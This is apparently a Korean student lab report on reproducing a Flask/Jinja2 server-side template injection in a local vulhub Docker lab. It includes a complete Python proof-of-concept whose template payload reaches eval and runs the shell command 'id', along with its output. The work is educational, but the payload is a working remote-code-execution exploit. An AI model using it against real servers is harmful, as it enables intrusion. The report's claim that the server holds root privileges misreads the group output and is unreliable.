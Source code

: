 # Flask (Jinja2) SSTI 취약점 검증 및 PoC 실습 보고서
> 화이트햇 스쿨 3기 - 최아현(5975)

<br/>

## 1. SSTI 개념 증명 해보기 (poc코드 수정 전)

위의 깃허브링크에서 **Flask (Jinja2) SSTI (Server Side Template Injection) 취약점**을 선택하였고, 해당 깃허브 링크를 fork해서 내 github에 복사하였다.

### 1.1 실습 환경 구축

- docker desktop 설치
- Git-2.49.0-64-bit 설치
- python 3.13.3 도 설치
  
<br/>

### 1.2 프로젝트 clone 및 실행
다음 명령어를 통하여 내 GitHub에서 Fork된 kr-vulhub 클론한 뒤 해당 폴더로 이동하였다.
1. git clone https://github.com/ChoiAh/kr-vulhub.git
2. cd kr-vulhub/Flask/SSTI

### 1.3 Docker로 Flask 서버 실행하기
docker-compose up -d 명령어를 통하여 
![docker-compose up -d 실행결과](./1.png)
<br/>


### 1.4 브라우저에서 flask 서버 접속
![서버 접속 실행결과](./1.png)
1. http://localhost:8000/?name={{7*7}} → Hello 49 출력 확인
2. http://localhost:8000/?name={{5*5}} → Hello 25 출력 확인
### 1.5 출력 결과 분석
이건 서버가 내가 입력한 것을 내부에서 파이썬 연산처럼 처리했다는 , Flask 서버가 이걸 Jinja2 템플릿 문법으로 처리해서 7 * 7 = 49 계산한 결과를 보여주는 것, 서버가 사용자의 입력을 코드로 실행한 것 = SSTI 발생! 템플릿 엔진이 입력된 수식을 그대로 실행한 결과를 보여주고 이는 SSTI취약점이 존재함을 의미

## 2. 공격코드 (poc.py) 실행
### Flask 서버에 실제 시스템 명령어 삽입하기 (PoC 수행)
<br/>
### 2.1 poc.py 작성
vs code에서 C:\Users\chloe\kr-vulhub\Flask\SSTI 이 경로에 poc.py라는 이름의 py파일을 생성하고 아래의 코드를 입력해 넣었다.
```python
from urllib import parse
import requests

script = '__import__("os").popen("id").read()'
# SSTI 취약점 유발 코드
value = """{% for c in [].__class__.__base__.__subclasses__() %}
{% if c.__name__ == 'catch_warnings' %}
  {% for b in c.__init__.__globals__.values() %}
  {% if b.__class__ == {}.__class__ %}
    {% if 'eval' in b.keys() %}
      {{ b['eval']('%s') }}
    {% endif %}
  {% endif %}
  {% endfor %}
{% endif %}
{% endfor %}"""
value = value.replace("%s", script)

print("<SSTI 취약점 유발 코드>")
print(value)
print()

# SSTI를 수행하는 URL 생성
query = [("name", value)]
url = "http://localhost:8000/?" + parse.urlencode(query)
print("<요청 URL>")
print(url)
print()

# 실제 요청 전송
response = requests.get(url)
print("<서버의 응답>")
print(response.text)
```
![vs code로 poc.py작성](./3.png)
<br/>
### 2.2 poc.py 실행
py poc.py명령을 통하여 위에서 작성한 코드를 실행해보았다.
![poc.py 실행결과](./4.png)
위의 사진처럼 출력이 되었다.

 > uid=33(www-data) gid=33(www-data) groups=33(www-data),0(root)
### 2.3 출력값의 의미
- uid=33(www-data)  → 현재 FLASK서버가  uid=33(www-data) 계정으로 실행중이라는 의미
- gid=33(www-data) →   현재 FLASK서버가  gid=33(www-data) 그룹 계정으로 실행중이라는 의미
- groups=33(www-data),0(root) → 이서버는 root권한도 가지고 있다는 뜻

### 1.5 출력 결과 분석
즉, 템플릿 인젝션으로 서버에서 임의 시스템 명령어 실행이 가능했고 실행된 결과로 서버 내부 계정 정보를 탈취할 수 있었다. 따라서 결과적으로 해당 flask 서버의 제어권한을 획득할 수 있었다. 
서버에서  os명령어가 실행되었고 해당 flask 서버가 root권한을 포함하고 있는 것을  확인할 수 있음


## 3. 결론

[poc.py](http://poc.py) 스크립트를 통하여 SSTI취약점이 존재하는 FLASK서버에 악의적인 템플릿 코드(`__import__("os").popen("id").read()` 명령어를 실행하는 코드 )를 삽입하였다. 따라서 서버는 해당 코드를 실행하여 현재 사용자의 UID, GID, groups를 알려주었다. 이 실습을 통하여 flask서버의 stti 취약점을 통하여 원격 코드 실행 수준의 제어가 가능함을 확인할 수 있었다. 공격자는 `name` 파라미터에 Jinja2 템플릿 문법을 삽입함으로써 서버 측에서 Python 코드가 실행되도록 유도함, 이를 통해 단순 수식 평가뿐 아니라 시스템 명령어(`id`)까지 실행할 수 있었으며, 서버의 UID, GID 정보가 노출됨, 이는 명백한 SSTI 취약점으로, 상황에 따라 **원격 명령 실행(RCE)** 으로 이어질 수 있는 심각한 보안 위협임
